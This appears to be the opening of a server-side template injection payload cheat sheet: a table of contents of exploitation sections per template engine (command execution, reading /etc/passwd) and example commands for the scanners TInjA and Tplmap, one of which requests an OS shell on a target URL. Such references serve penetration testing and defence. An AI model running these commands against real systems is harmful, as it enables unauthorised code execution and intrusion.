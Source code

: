     - [Lessjs < v3 - Command Execution](#lessjs--v3---command-execution)
    - [Plugins](#plugins)
  - [JavaScript - Lodash](#Lodash)
    - [Lodash - Basic Injection](#Lodash---Basic-Injection)
    - [Lodash - Command Execution](#Lodash---Command-Execution)
  - [Python - Mako](#mako)
    - [Direct access to os from TemplateNamespace:](#direct-access-to-os-from-templatenamespace)
  - [Java - Pebble](#pebble)
    - [Pebble - Basic injection](#pebble---basic-injection)
    - [Pebble - Code execution](#pebble---code-execution)
  - [Ruby](#ruby)
    - [Ruby - Basic injections](#ruby---basic-injections)
    - [Ruby - Retrieve /etc/passwd](#ruby---retrieve-etcpasswd)
    - [Ruby - List files and directories](#ruby---list-files-and-directories)
    - [Ruby - Code execution](#ruby---code-execution)
  - [PHP - Smarty](#smarty)
  - [PHP - Twig](#twig)
    - [Twig - Basic injection](#twig---basic-injection)
    - [Twig - Template format](#twig---template-format)
    - [Twig - Arbitrary File Reading](#twig---arbitrary-file-reading)
    - [Twig - Code execution](#twig---code-execution)
  - [Java - Velocity](#java---velocity)
  - [Java - Spring](#java---spring)
  - [PHP - patTemplate](#pattemplate)
  - [PHP - PHPlib](#phplib-and-html_template_phplib)
  - [PHP - Plates](#plates)
  - [References](#references)

## Tools

Recommended tools: 

[TInjA](https://github.com/Hackmanit/TInjA) - An efficient SSTI + CSTI Scanner utilizing novel polyglots

e.g:

```bash
./tinja url -u "http://example.com/page?user=Kirlia" -H "Authentication: Bearer ey..."
./tinja url -u "http://example.com/page" -d "username=Kirlia&password=notguessable"  -c "PHPSESSID=ABC123..."
```

[Tplmap](https://github.com/epinna/tplmap) - Server-Side Template Injection and Code Injection Detection and Exploitation Tool

e.g:

```powershell
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```
